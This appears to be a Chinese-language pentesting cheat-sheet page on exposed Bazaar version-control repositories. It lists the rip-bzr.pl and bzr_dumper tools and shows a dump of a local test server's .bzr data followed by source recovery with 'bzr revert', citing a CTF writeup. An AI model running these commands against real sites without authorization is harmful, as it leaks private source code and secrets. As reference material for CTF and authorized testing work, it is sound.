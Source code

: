 # Bazaar

> Bazaar（也称为bzr）是一款免费的分布式版本控制系统（DVCS），它帮助你在时间推移中追踪项目历史并与其他开发者无缝协作。由Canonical开发，Bazaar强调易用性、灵活的工作流以及丰富的功能，以满足个人开发者和大型团队的需求。

## 概述

* [工具](#工具)
    * [rip-bzr.pl](#rip-bzrpl)
    * [bzr_dumper](#bzr_dumper)
* [参考文献](#参考文献)

## 工具

### rip-bzr.pl

* [kost/dvcs-ripper/rip-bzr.pl](https://raw.githubusercontent.com/kost/dvcs-ripper/master/rip-bzr.pl)

    ```powershell
    docker run --rm -it -v /路径/到/主机/工作目录:/work:rw k0st/alpine-dvcs-ripper rip-bzr.pl -v -u
    ```

### bzr_dumper

* [SeahunOh/bzr_dumper](https://github.com/SeahunOh/bzr_dumper)

```powershell
python3 dumper.py -u "http://127.0.0.1:5000/" -o source
创建了一个独立的树（格式：2a）
[!] 目标 : http://127.0.0.1:5000/
[+] 开始。
[+] GET repository/pack-names
[+] GET README
[+] GET checkout/dirstate
[+] GET checkout/views
[+] GET branch/branch.conf
[+] GET branch/format
[+] GET branch/last-revision
[+] GET branch/tag
[+] GET b'154411f0f33adc3ff8cfb3d34209cbd1'
[*] 完成
```

```powershell
bzr revert
 N  application.py
 N  database.py
 N  static/
```

## 参考文献

* [STEM CTF网络安全挑战2019 – 我的第一个博客 - m3ssap0 / zuzzur3ll0n1 - 2019年3月2日](https://ctftime.org/writeup/13380)